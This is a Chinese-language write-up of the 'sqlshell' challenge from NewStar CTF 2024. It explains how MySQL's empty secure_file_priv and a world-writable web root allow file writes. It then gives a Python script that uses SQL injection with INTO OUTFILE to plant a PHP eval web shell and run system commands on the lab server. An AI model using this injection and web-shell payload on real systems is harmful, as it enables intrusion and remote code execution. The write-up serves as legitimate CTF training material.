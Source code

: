 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```


# sqlshell

mysql 启动时，加了这个选项：--secure_file_priv=''，这个的选项作用是允许 mysql 进行文件读写。

- 如果这个选项是 NULL，说明不能进行文件读写
- 如果这个选项是指定的目录，说明只能对指定目录进行文件读写
- 如果这个选项是空字符串，也就是''，能对任意目录进行文件读写

程序运行时，执行了这条命令：``chmod 777 /var/www/html``，作用是允许该目录被所有用户写入文件。

所以思路就是通过注入 sql 语句，进行写文件，写一个木马到网站根目录（``/var/www/html``）下即可。

```
import requests

url = 'http://192.168.109.128:8889'

payload = '\' || 1 union select 1,2,"<?php eval($_GET[1]);" into outfile \'/var/www/html/3.php\'#'

res = requests.get(url,params={'student_name':payload})
res = requests.get(f'{url}/3.php',params={'1':'system("cat /you_cannot_read_the_flag_directly");'})
print(res.text)

```